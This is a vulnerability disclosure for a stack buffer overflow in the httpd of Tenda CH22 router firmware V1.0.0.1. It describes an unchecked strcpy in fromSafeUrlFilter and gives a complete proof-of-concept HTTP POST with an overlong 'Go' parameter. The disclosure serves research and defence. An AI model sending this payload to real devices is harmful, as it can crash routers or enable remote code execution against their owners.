


# CH22 Vulnerability

Vendor:Tenda

Product:CH22 

Version: V1.0.0.1 

Vulnerability: buffer overflow

Firmware Download:https://www.tenda.com.cn/material/show/1367

Author:Li Tengzheng

## Descriptions

We found overflow vulnerability  in `httpd` :

In  fromSafeUrlFilter function,it reads in a user-provided parameter `menufacturer` and `Go`.

If the value of menufacturer is `tenda`,the variable p_s will be passed to the strcpy  function without any length check, which may overflow the stack-based buffer s. 

<div  align="center"></div>

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

## Proof of Concept (PoC)

```
POST /goform/SafeUrlFilter HTTP/1.1
Host: 192.168.6.2
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.6.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 2074

menufacturer=tenda&Go=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
## Overcome


<div  align="center"></div>


